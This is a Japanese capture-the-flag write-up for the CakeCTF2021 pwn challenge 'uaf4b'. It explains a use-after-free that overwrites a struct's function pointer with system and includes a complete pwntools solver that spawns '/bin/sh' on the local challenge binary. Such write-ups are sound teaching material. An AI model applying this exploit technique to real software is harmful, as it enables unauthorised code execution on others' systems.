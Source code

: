 ```yaml
---
title: "uaf4b"
date: 2022-05-02T08:45:31+09:00
tags: ["pwn", "CakeCTF2021", "ptr-yudai's chall"]
draft: false
---
```


# uaf4b - CakeCTF2021

[uaf4b - CakeCTF2021(My solver)](https://github.com/yu1hpa/ctf-writeup/tree/master/2021/CakeCTF/uaf4b)

[uaf4b - CakeCTF2021(Official GitHub)](https://github.com/theoremoon/cakectf-2021-public/tree/master/pwn/uaf4b)

# 方針
Use after Free によって関数ポインタを`system`関数で書き換える。

### CAWSAY 構造体について
重要なのは、`main.c`の47〜50行目の構造体である。

freed chunkでは、`fn_dialogue`が`fd`、`message`が`bk`に割り当てられる。
```c
typedef struct {
  void (*fn_dialogue)(char*);
  char *message;
} COWSAY;
```

また、`main.c`の167〜171行目で、
`cowsay->fn_dialogue(cowsay->message);`が実行されることに留意しておく。
```
case 1:
  /* Use cowsay */
  printf("[+] You're trying to call 0x%016lx\n", (addr)cowsay->fn_dialogue);
  cowsay->fn_dialogue(cowsay->message);
  break;
```

### malloced chunk
実際にmallocされたときのHeap領域は次の図のようになっている。

[![mallocedchunk](https://i.gyazo.com/f3ef9ad8fe8cc16b6db4e9b59e3347d3.png)](https://gyazo.com/f3ef9ad8fe8cc16b6db4e9b59e3347d3)

### freed chunk
次に、freeすると、次の図のようになる。

[![freedchunk](https://i.gyazo.com/dcb349b359e86031b4d3575a85de9b8e.png)](https://gyazo.com/dcb349b359e86031b4d3575a85de9b8e)

### system("/bin/sh")を呼び出す
この2つの図を見るとわかるように、関数ポインタ`fn_dialogue`の位置に`fd`が割り当てられている。
つまり、`fn_dialogue`を`system`に、`COWSAY->message = /bin/sh`にすれば、
`system("/bin/sh")`が呼び出される。

# Solver
```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process("./chall")

io.recvuntil("<system> = ")
system_addr = int(io.recvline(), 16)

io.sendlineafter("> ", "2")
io.sendlineafter("Message: ", "/bin/sh")

io.sendlineafter("> ", "4")
io.recvuntil("cowsay->message")
message_addr = int(io.recvuntil("|")[:16], 16)
print(f'{message_addr:x}')

io.sendlineafter("> ", "3") # free
io.sendlineafter("> ", "2")     # fd ↓               # bk ↓
io.sendlineafter("Message: ", p64(system_addr) + p64(message_addr)) # system(/bin/sh)

io.sendlineafter("> ", "4")
io.sendlineafter("> ", "1")

io.interactive()
````

### 最終的なHeap領域

[![Image from Gyazo](https://i.gyazo.com/ea4b3c9b6166f1d35070ebe0823a9922.png)](https://gyazo.com/ea4b3c9b6166f1d35070ebe0823a9922)


